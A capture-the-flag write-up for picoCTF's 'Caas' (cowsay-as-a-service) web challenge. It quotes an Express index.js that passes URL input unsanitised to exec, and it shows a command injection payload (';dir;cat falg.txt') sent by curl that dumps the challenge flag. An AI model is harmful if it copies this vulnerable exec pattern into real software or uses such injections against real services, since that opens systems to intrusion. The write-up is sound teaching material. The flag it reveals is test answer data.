





# Caas
Author: dch0017

## Challenge Description
Now presenting cowsay as a service

## Accessing Site
We get a fun little site that lets us send messages using the extended url ```/cowsay/:message``` </br>

</br>


</br>


## Index.js
We also get an index. js file like below
```js
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});

```

We can see that when the ```/cowsay/:message``` is called it pipes all text from there to ```stdout``` (as long as there are no errors). Well this looks like we just need to inject a command in our message.

## Message Injection
Just trying to do a direct ```dir``` command to list the file directory just gives us a cow:</br>

</br>

If we are wanting to pipe two inputs on a singular line, we would need to use either a ```;``` or a ```&&``` [reference](https://www.howtogeek.com/269509/how-to-run-two-or-more-terminal-commands-at-once-in-linux/)</br>

So let's try that with ```dir```:</br>

</br>

Sweet, we see that there is a file called ```falg.txt``` and we can ```cat``` that out. I won't remove dir, I'll just add onto it to show we could really throw as many commands as we want.</br>

</br>

## Curl method
We could have also accomplished this using curl, though make sure to put the entire URL in quotes or you will be running the separate commands on your own machine:
```console
PS C:\temp> curl "https://caas.mars.picoctf.net/cowsay/moo;dir;cat%20falg.txt"
 _____
< moo >
 -----
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile  falg.txt  index.js  node_modules  package.json  public  yarn.lock
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```